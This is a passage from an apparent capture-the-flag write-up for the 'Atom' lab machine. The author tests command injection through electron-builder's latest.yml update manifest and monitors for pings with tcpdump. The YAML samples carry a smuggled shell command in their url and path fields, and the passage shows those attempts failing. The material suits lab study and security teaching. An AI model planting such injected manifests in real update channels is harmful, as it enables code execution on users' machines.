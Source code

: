 I suspect this maybe doesn't work as it's trying to access a file on the local file system, not on samba.

## Trying Code Injection

The next option is to try a `yaml` with a code injection:

```yaml
version: 1.0.1
files:
  - url: heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I set up a `tcpdump` - see [[Linux Networking#Testing a Connection]] for details.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

I put `latest.yml` one more time, and waited for a ping. However, I got nothing.

## Debugging YAML Syntax

I spent a bit of time experimenting with various formats for the YAML. As always, you can [[20 - Exploiting Electron Builder#Final Payload|skip to the working payload]].

I tried looking at some [electron-builder docs](https://www.electron.build/auto-update) to see how the URL should be specified.

It seems this method is terribly documented, but googling "latest.yml url" I *eventually* found [this issue](https://github.com/electron-userland/electron-builder/issues/1678) which has an example of an absolute URL.

It's unclear whether this feature was implemented, as the issue was closed without reference to a commit. This [similar issue](https://github.com/electron-userland/electron-builder/issues/1862) has the same.

However, both use a yaml without the `files` section, and no `-` before `url`. This comment suggests `path` can be used instead:

![[Pasted image 20210422155138.png]]

I tried this yaml first to see if the `files` section was the issue, but got no ping.

```yaml
version: 1.0.1
path: heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```
